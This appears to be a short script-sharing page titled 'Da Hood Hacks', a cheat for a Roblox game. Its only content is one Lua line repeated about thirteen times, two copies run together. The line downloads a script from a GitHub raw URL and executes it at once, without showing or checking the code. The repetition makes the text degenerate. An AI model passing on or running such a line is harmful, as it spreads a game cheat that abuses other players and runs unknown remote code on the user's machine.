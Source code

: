 Da Hood Hacks 
loadstring(game:HttpGet("https://raw.githubusercontent.com/nighter132/Faded/main/YesEpic", true))()
loadstring(game:HttpGet("https://raw.githubusercontent.com/nighter132/Faded/main/YesEpic", true))()
loadstring(game:HttpGet("https://raw.githubusercontent.com/nighter132/Faded/main/YesEpic", true))()
loadstring(game:HttpGet("https://raw.githubusercontent.com/nighter132/Faded/main/YesEpic", true))()
loadstring(game:HttpGet("https://raw.githubusercontent.com/nighter132/Faded/main/YesEpic", true))()
loadstring(game:HttpGet("https://raw.githubusercontent.com/nighter132/Faded/main/YesEpic", true))()
loadstring(game:HttpGet("https://raw.githubusercontent.com/nighter132/Faded/main/YesEpic", true))()
loadstring(game:HttpGet("https://raw.githubusercontent.com/nighter132/Faded/main/YesEpic", true))()
loadstring(game:HttpGet("https://raw.githubusercontent.com/nighter132/Faded/main/YesEpic", true))()
loadstring(game:HttpGet("https://raw.githubusercontent.com/nighter132/Faded/main/YesEpic", true))()
loadstring(game:HttpGet("https://raw.githubusercontent.com/nighter132/Faded/main/YesEpic", true))()
loadstring(game:HttpGet("https://raw.githubusercontent.com/nighter132/Faded/main/YesEpic", true))()loadstring(game:HttpGet("https://raw.githubusercontent.com/nighter132/Faded/main/YesEpic", true))()
